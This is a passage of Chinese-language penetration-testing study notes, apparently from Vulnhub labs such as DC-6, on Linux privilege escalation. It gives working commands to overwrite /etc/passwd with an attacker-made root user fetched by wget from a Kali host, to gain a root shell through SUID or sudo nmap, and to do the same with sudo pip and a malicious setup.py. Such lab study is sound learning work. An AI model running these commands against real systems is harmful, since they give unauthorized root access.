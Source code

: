通过OpenSSL passwd生成一个新的用户hacker，密码为hack123，并将其追加到kali的/etc/passwd文件中
```
openssl passwd -1 -salt hacker hack123
```

在Kali上启动一个python服务器
```
python2 -m SimpleHTTPServer 8000
```

将Kali上的passwd文件下载到靶机etc目录下并覆盖原来的passwd文件
```
wget -O passwd http://10.10.10.128:8000/passwd
```
![](_img\14-归类总结/1671607724512-d778ca6d-812d-4c80-823d-5a29587e4243.jpeg)

然后切换到hacker用户即可<br />![](_img\14-归类总结/1671607738985-290c1f71-3918-43e9-9604-9b69aac681f2.jpeg)


## 10.2、NMAP提权
**例一**<br />nmap被suid分配了root权限
```
find / -perm -u=s -type f 2>/dev/null
```
![](_img\14-归类总结/1671607838245-f378a950-d376-44c9-9112-cdbf6ee39dcc.jpeg)

用nmap来提权
```
nmap --interactive
!sh
```
![](_img\14-归类总结/1671607876354-3a5229cc-9542-47bf-a4e0-86dfabf8760a.jpeg)

**例二**<br />当单个用户被分配了root权限时
```
find / -perm -u=s -type f 2>/dev/null
```
![](_img\14-归类总结/1671607955754-28023835-9d61-41f0-84e7-0f6489f724a4.jpeg)

nmap提权
```
echo "os.execute('/bin/bash')" >> shell.nce
sudo nmap --script=/tmp/shell.nce
```
![](_img\14-归类总结/1671608007881-59093e83-ab71-443f-bb38-7d153dbb4525.jpeg)

应用参考链接：[DC-6](https://www.yuque.com/xmtxsec/network_security/vulnhub-dc-6)


## 10.3、PIP提权
pip命令被分配了root权限<br />![](_img\14-归类总结/1671526003023-46c175a0-d542-43f9-bd1b-f3d9f9b70062.png)

**方法一**
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```
![](_img\14-归类总结/1671526741086-9aaea337-94ed-4cd0-b0b4-08dc5f42aa1c.png)
